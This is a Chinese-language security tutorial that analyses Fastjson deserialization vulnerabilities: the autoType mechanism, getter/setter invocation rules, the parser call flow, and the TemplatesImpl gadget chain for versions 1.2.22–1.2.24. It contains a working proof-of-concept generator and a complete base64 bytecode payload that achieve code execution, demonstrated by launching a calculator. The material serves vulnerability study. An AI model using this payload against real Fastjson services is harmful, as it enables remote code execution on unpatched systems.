





## fastjson 简介

`Fastjson`是`Alibaba`开发的`Java`语言编写的高性能`JSON`库, 用于将数据在`JSON`和`Java Object`之间互相转换, 提供两个主要接口`JSON.toJSONString`和`JSON.parseObject`/`JSON.parse`来分别实现序列化和反序列化操作.

## 影响范围

```text
Fastjson < 1.2.68
```

## fastjson 学习

`fastjson`操作有两种, 一种是将`Java Bean`序列化为`JSON`字符串, 另一种是将`JSON`字符串反序列化到`Java Bean`.

### 类-JSON

将`Java Bean`序列化为`JSON`字符串的常用方法是`JSON.toJSONString()`, 该方法有很多重载方法, 其中常用的参数有如下几个:
 - 序列化特性: `com.alibaba.fastjson.serializer.SerializerFeature`, 可以通过设置多个特性到`FastjsonConfig`中全局使用, 也可以在使用具体方法中指定特性.
 - 序列化过滤器: `com.alibaba.fastjson.serializer.SerializeFilter`, 这是一个接口, 通过配置它的子接口或者实现类就可以以扩展编程的方式实现定制序列化.
 - 序列化时的配置: `com.alibaba.fastjson.serializer.SerializeConfig`, 可以添加特点类型自定义的序列化配置.

### JSON-类

将`JSON`字符串反序列化为`Java Bean`的常用方法为`parse`、`parseObject`、`parseArray`, 这三个方法也都包含着很多种重载方法, 其中常用的参数有如下几个:
 - 反序列化特性: `com.alibaba.fastjson.parser.Feature`.
 - 类的类型: `java.lang.reflect.Type`, 用来执行反序列化类的类型.
 - 处理泛型反序列化: `com.alibaba.fastjson.TypeReference`.
 - 编程扩展定制反序列化: `com.alibaba.fastjson.parser.deserializer.ParseProcess`, 例如`ExtraProcessor`用于处理多余的字段, `ExtraTypeProvider`用于处理多余字段时提供类型信息.

### 功能要点

这里来看看早期版本的`fastjson`的框架图.


主要的功能点有:
 - 使用`JSON.parse(jsonString)`和`JSON.parseObject(jsonString, Target.class)`, 两者调用链一致, 前者会在`jsonString`中解析字符串获取`@type`指定的类, 后者则会直接使用参数中的`class`.
 - `fastjson`在创建一个类实例时会通过反射调用类中符合条件的`getter`/`setter`方法.
    - 其中`getter`方法需满足条件: 
      - 方法名长于`4`.
      - 不是静态方法.
      - 以`get`开头且第`4`位是大写字母.
      - 方法不能有参数传入.
      - 继承自`Collection`|`Map`|`AtomicBoolean`|`AtomicInteger`|`AtomicLong`.
      - 此属性没有`setter`方法. 
    - `setter`方法需满足条件: 
      - 方法名长于`4`.
      - 以`set`开头且第`4`位是大写字母.
      - 非静态方法.
      - 返回类型为`void`或当前类.
      - 参数个数为`1`个.
    - 具体逻辑在`com.alibaba.fastjson.util.JavaBeanInfo.build()`中.

 - 使用`JSON.parseObject(jsonString)`将会返回`JSONObject`对象, 且类中的所有`getter`与`setter`都被调用.
 - 如果目标类中私有变量没有`setter`方法, 但是在反序列化时仍想给这个变量赋值, 则需要使用`Feature.SupportNonPublicField`参数.
 - `fastjson`在为类属性寻找`get`/`set`方法时, 调用函数`com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer#smartMatch()`方法, 会忽略`_`|`-`字符串, 也就是说哪怕你的字段名叫`_a_g_e_`, `getter`方法为`getAge()`, `fastjson`也可以找得到, 在`1.2.36`版本及后续版本还可以支持同时使用`_`和`-`进行组合混淆.
 - `fastjson`在反序列化时, 如果`Field`类型为`byte[]`, 将会调用`com.alibaba.fastjson.parser.JSONScanner#bytesValue`进行`base64`解码, 对应的, 在序列化时也会进行`base64`编码.

## fastjson 序列化与反序列化
### 序列化
示例代码如下:
 - Demo.java

```java
package org.h3rmesk1t.fastjson.demo;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 8:08 下午
 */
public class Demo {

    private String name;

    public Demo() {
        System.out.println("构造函数");
    }

    public String getName() {
        System.out.println("getName");
        return name;
    }

    public void setName(String name) {
        System.out.println("setName");
        this.name = name;
    }
}
```

 - SerialDemo.java

```java
package org.h3rmesk1t.fastjson.demo;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.serializer.SerializerFeature;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 8:12 下午
 */
public class SerialDemo {

    public static void main(String[] args) {

        Demo demo = new Demo();
        demo.setName("h3rmesk1t");

        String jsonString = JSON.toJSONString(demo, SerializerFeature.WriteClassName);
        System.out.println("SerialResult with SerializerFeature.WriteClassName...");
        System.out.println(jsonString);

        String jsonStringWithoutSerializerFeatureWriteClassName = JSON.toJSONString(demo);
        System.out.println("SerialResult without SerializerFeature.WriteClassName...");
        System.out.println(jsonStringWithoutSerializerFeatureWriteClassName);
    }
}
```

 - 运行结果


注意到, 在上面的代码中存在一个关键词`SerializerFeature.WriteClassName`, 其是`toJSONString`设置的一个属性值, 设置之后在序列化的时候会多写入一个`@type`, 即写上被序列化的类名, `type`可以指定反序列化的类, 并且调用其`getter`/`setter`/`is`方法.

### 反序列化
示例代码如下:
 - UnSerialDemo.java

```java
package org.h3rmesk1t.fastjson.demo;

import com.alibaba.fastjson.JSON;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 8:25 下午
 */
public class UnSerialDemo {

    public static void main(String[] args) {

        String jsonStringWithoutType = "{\"name\":\"h3rmesk1t\"}";
        String jsonStringWithType = "{\"@type\":\"org.h3rmesk1t.fastjson.demo.Demo\",\"name\":\"h3rmesk1t\"}";

        // JSON.parse without type
        System.out.println("parse...");
        System.out.println(JSON.parse(jsonStringWithoutType));

        // JSON.parseObject without type
        System.out.println("parseObject...");
        System.out.println(JSON.parseObject(jsonStringWithoutType));

        // JSON.parseObject(text, Class) without type
        System.out.println("parseObject(text, Class)...");
        System.out.println(JSON.parseObject(jsonStringWithType, Demo.class));

        // JSON.parse with type
        System.out.println("parse...");
        System.out.println(JSON.parse(jsonStringWithType));
        
        // JSON.parseObject with type
        System.out.println("parseObject...");
        System.out.println(JSON.parseObject(jsonStringWithType));
    }
}
```

 - 运行结果


从运行结果中可以看到, 第一和第二种方法没能成功反序列化, 这是因为没法确定其到底属于那个对象, 所以只能将其转换为一个普通的`JSON`对象从而无法正确转换, 而第三种方法成功反序列化是因为其指明了对象. 在引入了`@type`后, 成功反序列化, 可以看到`parse`成功触发了`set`方法, `parseObject`同时触发了`set`和`get`方法, 因为`fastjson`存在`autoType`机制, 当用户指定`@type`时, 存在调用恶意`setter`/`getter`的情况, 这就是`fastjson`反序列化漏洞.

## fastjson 反序列化漏洞基本原理
### 反序列化漏洞基本原理
在前面的示例代码中, 我们知道了`Fastjson`的`autoType`机制, 也了解到了反序列化漏洞产生的原因是`get`或`set`方法中存在恶意操作, 以下面`demo`为例:

 - Exploit.java

```java
package org.h3rmesk1t.fastjson.demo;

import java.io.IOException;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 9:06 下午
 */
public class Exploit {

    private String name;

    public String getName() {
        System.out.println("getName");
        return name;
    }

    public void setName(String name) throws IOException {
        System.out.println("setName");
        this.name = name;
        Runtime.getRuntime().exec("open -a Calculator");
    }
}
```

 - UnExploit.java

```java
package org.h3rmesk1t.fastjson.demo;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.serializer.SerializerFeature;

import java.io.IOException;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 9:09 下午
 */
public class UnExploit {

    public static void main(String[] args) throws IOException {

//        Exploit exp = new Exploit();
//        exp.setName("h3rmesk1t");
//        String jsonString = JSON.toJSONString(exp, SerializerFeature.WriteClassName);
//        System.out.println(jsonString);

        String jsonString = "{\"@type\":\"org.h3rmesk1t.fastjson.demo.Exploit\",\"name\":\"h3rmesk1t\"}";
        System.out.println(JSON.parseObject(jsonString));
    }
}
```


### 反序列化漏洞流程分析
在`parseObject`处打上断点, 跟进`Feature#parseObject`方法, 在第一行中会调用`Feature#parse`方法.


跟进`Feature#parse`方法, 继续跟进`parse`, 这里会创建一个`DefaultJSONParser`对象, 在这个过程中会有一个判断操作, 来判断解析的字符串是`{`还是`[`, 并根据判断的结果设置`token`值, 创建完成`DefaultJSONParser`对象后进入`DefaultJSONParser#parse`方法.






跟进`DefaultJSONParser#parse`方法, 在该过程中会获取到之前设置的`token`值, 并根据`token`值进行相对应的操作, 该判断过程会创建一个空的`JSONObject`, 随后会通过`parseObject`方法进行解析.


跟进`parseObject`方法, 这里会通过`scanSymbol`获取到`@type`指定类, 然后通过`TypeUtils.loadClass`方法加载`Class`.




跟进`TypeUtils.loadClass`方法, 这里首先会从`mappings`里面寻找类, `mappings`中存放着一些`Java`内置类, 由于前面一些条件不满足, 所以最后用`ClassLoader`加载类, 在这里也就是加载`Exploit`类.


返回`clazz`值后回到上一级, 创建`ObjectDeserializer`对象, 并调用`getDeserializer`方法.


跟进`ParserConfig#getDeserializer`方法, 继续调用`getDeserializer`方法, 这里使用了黑名单限制可以反序列化的类, 但是黑名单里面只有`java.lang.Thread`.


接着回到前面的`deserialze`方法, 往下调试到达`ASM`机制生成的临时代码, 最后调用`set`和`get`里面的方法.


## Fastjson 1.2.22-1.2.24反序列化漏洞
这个版本的`Fastjson`有两条利用链:
 1. JdbcRowSetImpl
 2. Templateslmpl

### TemplatesImpl 反序列化
#### 分析

`TemplatesImpl`类位于`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`, 实现了`Serializable`接口, 因此它可以被序列化.

注意到该类中存在一个成员属性`_class`, 其是一个`Class`类型的数组, 数组里下标为`_transletIndex`的类会在`getTransletInstance`方法中使用`newInstance`实例化.


跟进`getTransletInstance`的调用, 发现`newTransformer`会调用`getTransletInstance`方法, 而类中的`getOutputProperties`方法又会调用`newTransformer`方法.


而`getOutputProperties`方法就是类成员变量`_outputProperties`的`getter`方法.


既然这里可以构成一条调用链, 回到最开始的`_class`, 看看其中的类是否可控, 发现在构造方法、`readObject`方法以及`defineTransletClasses`方法中有赋值的动作.


而在`getTransletInstance`方法中当`_class==null`时, 则会调用`defineTransletClasses`方法, 跟进该方法来看看代码的逻辑. 首先要求`_bytecodes`不为空, 接着就会调用自定义的`ClassLoader`去加载`_bytecodes`中的`byte[]`, 而`_bytecodes`也是该类的成员属性. 如果这个类的父类为`ABSTRACT_TRANSLET`, 也就是`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`, 就会将类成员属性的`_transletIndex`设置为当前循环中的标记位, 如果是第一次调用, 就是`_class[0]`; 如果父类不是这个类, 将会抛出异常.



#### 调用链

根据上文的分析过程, 不难得到一条调用链:
 - 构造一个`TemplatesImpl`类的反序列化字符串, 其中`_bytecodes`是我们构造的恶意类的类字节码, 这个类的父类是`AbstractTranslet`, 最终这个类会被加载并使用`newInstance`实例化.
 - 在反序列化过程中, 由于`getter`方法`getOutputProperties`满足条件, 将会被`fastjson`调用, 而这个方法触发了整个漏洞利用流程.

```java
getOutputProperties() -> 
newTransformer() -> 
getTransletInstance() -> 
defineTransletClasses() / EvilClass.newInstance()
```

#### Payload
需要注意的是, 为了满足漏洞点触发之前不报异常及退出, 需要满足`_name`不为`null`, `_tfactory`不为`null`. 由于部分需要更改的私有变量没有`setter`方法, 需要使用`Feature.SupportNonPublicField`参数来触发.

 - POC.java

```java
package org.h3rmesk1t.fastjson.fastjson124;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.codec.binary.Base64;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 11:18 下午
 */
public class POC {

    public static class H3rmesk1t {

    }

    public static String makeClass() throws Exception {

        ClassPool pool = ClassPool.getDefault();
        CtClass cc = pool.get(H3rmesk1t.class.getName());
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open -a Calculator\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "H3rmesk1t" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass((pool.get(AbstractTranslet.class.getName())));
        byte[] evilCode = cc.toBytecode();

        return Base64.encodeBase64String(evilCode);
    }

    public static String exploitString() throws Exception {

        String evilCodeBase64 = makeClass();
        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String exploit = "{'d1no':{" +
                "\"@type\":\"" + NASTY_CLASS + "\"," +
                "\"_bytecodes\":[\"" + evilCodeBase64 + "\"]," +
                "'_name':'h3rmesk1t'," +
                "'_tfactory':{}," +
                "'_outputProperties':{}" +
                "}}\n";

        return exploit;
    }

    public static void main(String[] args) throws Exception {

        String exploit = exploitString();
        System.out.println(exploit);
        // JSON.parse(exploit, Feature.SupportNonPublicField);
        // JSON.parseObject(exploit, Feature.SupportNonPublicField);
        // JSON.parseObject(exploit, Object.class, Feature.SupportNonPublicField);
    }
}
```
 


 - Payload

```java
{'d1no':{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["yv66vgAAADQAJgoAAwAPBwAhBwASAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAlIM3JtZXNrMXQBAAxJbm5lckNsYXNzZXMBADJMb3JnL2gzcm1lc2sxdC9mYXN0anNvbi9mYXN0anNvbjEyNC9QT0MkSDNybWVzazF0OwEAClNvdXJjZUZpbGUBAAhQT0MuamF2YQwABAAFBwATAQAwb3JnL2gzcm1lc2sxdC9mYXN0anNvbi9mYXN0anNvbjEyNC9QT0MkSDNybWVzazF0AQAQamF2YS9sYW5nL09iamVjdAEAJm9yZy9oM3JtZXNrMXQvZmFzdGpzb24vZmFzdGpzb24xMjQvUE9DAQAIPGNsaW5pdD4BABFqYXZhL2xhbmcvUnVudGltZQcAFQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsMABcAGAoAFgAZAQASb3BlbiAtYSBDYWxjdWxhdG9yCAAbAQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwwAHQAeCgAWAB8BABdIM3JtZXNrMXQyOTQ5ODk5MDkyNjIxOAEAGUxIM3JtZXNrMXQyOTQ5ODk5MDkyNjIxODsBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0BwAjCgAkAA8AIQACACQAAAAAAAIAAQAEAAUAAQAGAAAALwABAAEAAAAFKrcAJbEAAAACAAcAAAAGAAEAAAAQAAgAAAAMAAEAAAAFAAkAIgAAAAgAFAAFAAEABgAAABYAAgAAAAAACrgAGhIctgAgV7EAAAAAAAIADQAAAAIADgALAAAACgABAAIAEAAKAAk="],'_name':'h3rmesk1t','_tfactory':{},'_outputProperties':{}}}
```

### JdbcRowSetImpl 反序列化
#### 分析


## 参考
 - [fastjson：我一路向北，离开有你的季节](https://su18.org/post/fastjson/)
 - [Fastjson 1.2.22-1.2.24反序列化漏洞分析](https://xz.aliyun.com/t/8979)
 - [红队武器库:fastjson小于1.2.68全漏洞RCE利用exp](https://zeo.cool/2020/07/04/%E7%BA%A2%E9%98%9F%E6%AD%A6%E5%99%A8%E5%BA%93!fastjson%E5%B0%8F%E4%BA%8E1.2.68%E5%85%A8%E6%BC%8F%E6%B4%9ERCE%E5%88%A9%E7%94%A8exp/)